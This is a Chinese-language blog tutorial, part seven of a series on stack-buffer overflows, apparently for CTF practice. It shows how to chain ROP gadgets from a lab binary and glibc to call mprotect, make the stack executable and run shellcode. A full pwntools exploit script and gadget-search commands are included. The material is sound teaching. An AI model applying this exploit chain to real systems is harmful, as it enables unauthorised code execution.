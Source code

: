 ```yaml
---
id: 782
layout: post
title: '二进制安全之栈溢出（七）'
date: 2017-10-26 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


本篇文章会使用一个稍复杂的 gadget，同时解决 gadget 含有换行符带来的问题。

### mprotect

之前使用 `vmmap` 命令的时候会注意到有一列是内存地址的权限，`rwx` 和文件系统的一致，NX 不可执行就是没有 `x` 权限，当然这不是绝对的，使用 `mprotect` 可以修改这个权限，这样的话，就可以在栈上执行 shellcode 了。

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/virusdefender/Desktop/pwn/new/vuln
0x00600000         0x00601000         r--p	/home/virusdefender/Desktop/pwn/new/vuln
0x00601000         0x00602000         rw-p	/home/virusdefender/Desktop/pwn/new/vuln
0x00602000         0x00623000         rw-p	[heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p	mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

函数原型是 `int mprotect(void *addr, size_t len, int prot);`，`addr` 是内存地址开头，`len` 是长度，`prot` 就是权限位，在 manpage 上有 `PROT_WRITE`、`PROT_EXEC`、`PROT_READ` 等几项，权限是位运算之后的数字，根据宏定义， `rwx` 就是 `0x1 | 0x2 | 0x4`。

需要注意的是 `mprotect` 修改的内存的起始地址必须和内存页对齐，范围也必须是内存页大小的整数倍，否则系统调用会失败，详见 manpage。`getconf PAGESIZE` 可以获取内存页大小，默认是 `4096`。

### ROP 构造 gadget

`mprotecct` 有三个参数，就会使用 `rdi, rsi, rdx` 寄存器。如果想让整个栈区可执行的话，在 `vmmap` 可以获取栈区的开头和结尾地址，那三个寄存器的值就分别是 `0x00007ffffffde000`、`0x00007ffffffff000 - 0x00007ffffffde000` 和 `0x1 | 0x2 | 0x4`。然后在调用 `mproect` 系统系统调用的时候，`rax` 寄存器是系统调用号，`0xa`。所以按照之前的文章，只要能找到下面这些 gadget 就可以了。

```
pop rdi; ret;
pop rsi; ret;
pop rdx; ret;
pop rax; ret;
syscall; ret;
```

但是有些事情总不会太直接，能在二进制文件中只能找到两个 gadget，其中第二个有一个寄存器是没用的，但是并不影响。

```
➜  new ROPgadget --binary vuln | grep "pop rdi"
0x0000000000400803 : pop rdi ; ret

➜  new ROPgadget --binary vuln | grep "pop rsi"
0x0000000000400801 : pop rsi ; pop r15 ; ret
```

这个时候可以去 glibc 中找了。

```
# 这个文件处理比较慢，可以先保存下结果
➜  new ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 > libc.gadget

➜  new grep "pop rdx ; ret" libc.gadget
0x0000000000001b92 : pop rdx ; ret

➜  new grep "pop rax ; ret" libc.gadget
0x0000000000033542 : add al, ch ; pop rax ; ret

➜  new grep "syscall ; ret" libc.gadget
0x00000000000bc375 : syscall ; ret
```

如果已知 glibc 的加载基址，使用基址加上上面的地址就可以了，这个基址目前可以在 `vmmap` 中看到。

### 0xa

如果按照上面的说法直接写 shellcode，会发现栈上的数据并不全，再认真的调试就会发现，shellcode 中含有 `0xa`，也就是 `\n` 的 ascii，因为 shellcode 是 gets 读入的，所以就会在这里被截断。

我选择了先 `pop rax` 为 `0x9`，然后 `add rax, 1； ret` 的 gadget。

```
➜  new grep "add rax, 1 ; ret" libc.gadget
0x00000000000abf40 : add rax, 1 ; ret
```

### shellcode

```python
from pwn import *

student = 0x7fffffffe2f0
shellcode = "1925\n"
cat = asm(shellcraft.amd64.linux.cat("flag"), arch="amd64", os="linux")
shellcode += cat + "A" * (0x7fffffffe348 - student - len(cat))

# pop rdi; ret
shellcode += p64(0x0000000000400803)
# mprotect arg1 addr -> rdi
shellcode += p64(0x00007ffffffde000)

# pop rsi; pop r15; ret;
shellcode += p64(0x0000000000400801)
# mprotect arg2 size -> rsi
shellcode += p64(0x00007ffffffff000 - 0x00007ffffffde000)
# -> r15
shellcode += p64(0)

libc_base = 0x00007ffff7a0d000

# pop rdx; ret;
shellcode += p64(libc_base + 0x0000000000001b92)
# mprotect arg3 rwx -> rdx
shellcode += p64(0x1 | 0x2 | 0x4)

# pop rax; ret
shellcode += p64(libc_base + 0x0000000000033544)
# -> rax
shellcode += p64(0xa - 1)

# add rax, 1; ret
shellcode += p64(libc_base + 0x00000000000abf40)

# syscalll; ret
shellcode += p64(libc_base + 0x00000000000bc375)

# shellcode
shellcode += p64(student)

print shellcode
```

运行后可以看到栈区的内存已经是 `rwx` 的权限了。

```
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

